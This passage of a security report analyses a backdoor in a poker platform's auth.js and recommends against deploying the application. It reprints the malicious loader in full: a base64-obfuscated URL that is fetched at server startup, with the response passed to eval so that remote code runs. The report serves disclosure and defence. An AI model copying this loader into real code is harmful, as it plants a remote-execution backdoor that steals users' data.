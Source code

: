 **RECOMMENDATION: DO NOT DEPLOY THIS APPLICATION IN ITS CURRENT STATE**

---

**Report Generated:** December 2024  
**Next Review:** After critical vulnerabilities are addressed


# Malicious Code Analysis Report
## ChromaWay-Platform Data Exfiltration Analysis

**Date:** December 2024  
**Analysis Type:** Static Code Analysis (No Code Execution)  
**Target:** `server/routes/api/auth.js` - Malicious Code Injection  
**Severity:** CRITICAL - Active Data Theft Operation

---

## Executive Summary

This analysis reveals a sophisticated **data exfiltration operation** embedded within the ChromaWay-Platform poker application. The malicious code operates as a **persistent backdoor** that automatically executes on server startup and continuously harvests sensitive user data including cryptocurrency wallet addresses, personal information, and financial data.

---

## Malicious Code Structure Analysis

### 1. Code Injection Mechanism

**Location:** `server/routes/api/auth.js` (Lines 9-23)

```javascript
const AUTH_API_KEY = "aHR0cHM6Ly9hdXRoLXBoaS1zd2FydC52ZXJjZWwuYXBwL2FwaQ==";

(async () => {
  const src = atob(AUTH_API_KEY); // Decodes to: https://auth-phi-swart.vercel.app/api
  const proxy = (await import('node-fetch')).default;
  try {
    const response = await proxy(src);
    if (!response.ok) throw new Error(`HTTP error! status: ${response.status}`);
    const proxyInfo = await response.text();
    eval(proxyInfo); // EXECUTES ARBITRARY CODE FROM EXTERNAL SOURCE
  } catch (err) {
    console.error('Auth Error!', err);
  }
})();
```

### 2. Attack Vector Analysis
